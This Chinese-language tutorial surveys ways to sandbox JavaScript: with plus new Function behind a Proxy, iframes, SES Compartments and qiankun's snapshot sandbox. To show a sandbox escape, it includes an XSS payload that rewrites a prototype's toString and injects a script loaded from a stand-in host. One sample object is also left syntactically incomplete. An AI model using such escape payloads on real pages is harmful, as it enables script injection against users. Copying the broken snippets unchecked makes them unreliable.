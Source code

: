 沙箱，即sandbox，顾名思义，就是让你的程序跑在一个隔离的环境下，不对外界的其他程序造成影响，通过创建类似沙盒的独立作业环境，在其内部运行的程序并不能对硬盘产生永久性的影响。 
## 应用场景

1. jsonp：解析服务器所返回的jsonp请求时，如果不信任jsonp中的数据，可以通过创建沙箱的方式来解析获取数据；（TSW中处理jsonp请求时，创建沙箱来处理和解析数据）；
2. 执行第三方js：当你有必要执行第三方js的时候，而这份js文件又不一定可信的时候；
3. 在线代码编辑器：相信大家都有使用过一些在线代码编辑器，而这些代码的执行，基本都会放置在沙箱中，防止对页面本身造成影响；                                      

（例如：[https://codesandbox.io/s/new](https://codesandbox.io/s/new)

4. vue的服务端渲染：vue的服务端渲染实现中，通过创建沙箱执行前端的bundle文件；在调用createBundleRenderer方法时候，允许配置runInNewContext为true或false的形式，判断是否传入一个新创建的sandbox对象以供vm使用；
5. vue模板中表达式计算：vue模板中表达式的计算被放在沙盒中，只能访问全局变量的一个白名单，如 Math 和 Date 。你不能够在模板表达式中试图访问用户定义的全局变量。
6. 微服务隔离，比如qiankun
## 沙箱方案
### with+ new Funtion
一个简单的雏形
```javascript
function compileCode (src) {  
  src = 'with (exposeObj) {' + src + '}'
  return new Function('exposeObj', src) 
}
```
接下来我们要考虑，如何不让沙箱内部访问外部内容
```javascript
function compileCode (src) {  
  src = `with (exposeObj) { ${src} }`
  return new Function('exposeObj', src) 
}

function proxyObj(originObj){
    let exposeObj = new Proxy(originObj,{
        has:(target,key)=>{
            if(["console","Math","Date"].indexOf(key)>=0){
                return target[key]
            }
            if(!target.hasOwnProperty(key)){
                throw new Error(`Illegal operation for key ${key}`)
            }
            return target[key]
        },
    })
    return exposeObj
}

function createSandbox(src,obj){
 let proxy = proxyObj(obj)
 compileCode(src).call(proxy,proxy) //绑定this 防止this访问window
}
const testObj = {
    value:1,
    a:{
        b:
    }
}
createSandbox("value='haha';console.log(a)",testObj)
```
通过设置has函数，可以监听到变量的访问，在上述代码中，仅暴露个别外部变量供代码访问，其余不存在的属性，都会直接抛出error。
以上方案难以解决的问题是，当传入脚本携带了访问原型链的方法，并对其进行了篡改，此时就是不安全的，比如如下：
```javascript
createSandbox(`
a.b.__proto__.toString = ()=>{
 new (()=>{}).constructor("var script = document.createElement('script');
 script.src = 'http://xss.js';
 script.type = 'text/javascript';
 document.body.appendChild(script);")()
}
`,testObj)
console.log(testObj.a.b.__proto__.toString())
```
此时**toString()**方法被传入的脚本篡改了，实现了“沙箱逃逸”，通过这种方式实现xss攻击。当然可以采用在传入时对外部代码进行分析过滤，但这始终是一种不安全的做法。
> evel+new Function的方法类似。

```javascript
function evalute(code,sandbox) {
  sandbox = sandbox || Object.create(null);
  const fn = new Function('sandbox', `with(sandbox){return (${code})}`);
  const proxy = new Proxy(sandbox, {
    has(target, key) {
      // 让动态执行的代码认为属性已存在
      return true; 
    }
  });
  return fn(proxy);
}
evalute('1+2') // 3
evalute('console.log(1)') // Cannot read property 'log' of undefined
```
### iframe
```javascript
const parent = window;
const frame = document.createElement('iframe');

// 限制代码 iframe 代码执行能力
frame.sandbox = 'allow-same-origin';

const data = [1, 2, 3, 4, 5, 6];
let newData = [];

// 当前页面给 iframe 发送消息
frame.onload = function (e) {
  frame.contentWindow.postMessage(data);
};

document.body.appendChild(frame);

// iframe 接收到消息后处理
const code = `
    return dataInIframe.filter((item) => item % 2 === 0)
`;
frame.contentWindow.addEventListener('message', function (e) {
  const func = new frame.contentWindow.Function('dataInIframe', code);

  // 给副页面也送消息
  parent.postMessage(func(e.data));
});

// 父页面接收 iframe 发送过来的消息
parent.addEventListener(
  'message',
  function (e) {
    console.log('parent - message from iframe:', e.data);
  },
  false,
);
```
### 仍在提案中的 SES
该特性是还在提案中的特性，但是已经可以在大多数引擎中使用了，它支持 ESM 模块调用，也可以直接通过 <script> 直接引入使用。
该特性主要是通过 Object.freeze 来隔离出安全沙箱，从而安全地执行第三方代码，使用方法如下：
```javascript
<script src="https://unpkg.com/ses" charset="utf-8"></script>
<script>
  const c = new Compartment();
  const code = `
        (function () {
            const arr = [1, 2, 3, 4];
            return arr.filter(x => x > 2);
        })
    `;
  const fn = c.evaluate(code);
  console.log(arr); // ReferenceError: arr is not defined
  console.log(fn()); // [3, 4]
</script>
```
### qiankun的沙箱原理
激活沙箱时，将window的快照信息存到windowSnapshot中， 如果modifyPropsMap有值，还需要还原上次的状态；激活期间，可能修改了window的数据；退出沙箱时，将修改过的信息存到modifyPropsMap里面，并且把window还原成初始进入的状态。
![image.png](https://cdn.nlark.com/yuque/0/2023/png/1553840/1685105148765-f62f7c1d-0aa3-4768-b0c7-cb9c1e727cfc.png#averageHue=%23838581&clientId=u38176d65-2586-4&from=paste&height=766&id=u0e0270de&originHeight=1532&originWidth=1642&originalType=binary&ratio=2&rotation=0&showTitle=false&size=880402&status=done&style=none&taskId=u80ff1c21-aed6-4eb9-9230-afd73feebdf&title=&width=821)



## 资料

- [为 Node.js 应用建立一个更安全的沙箱环境](https://zhuanlan.zhihu.com/p/35992886)
- [说说JS中的沙箱](https://mp.weixin.qq.com/s/MSvpPN8PaHnFwxXZS_x7dQ)
- [实现 JavaScript 沙箱的几种方式 | F2E 前端技术论坛](https://learnku.com/articles/59591)
- [15分钟快速理解qiankun的js沙箱原理及其实现 - 掘金](https://juejin.cn/post/6920110573418086413)
- [微前端框架qiankun的沙箱方案解析 - 政采云前端团队](http://zoo.zhengcaiyun.cn/blog/article/qiankun)
- [微前端qiankun沙箱实现源码解读 / 张生荣](https://www.zhangshengrong.com/p/9Oab85w9Xd/)
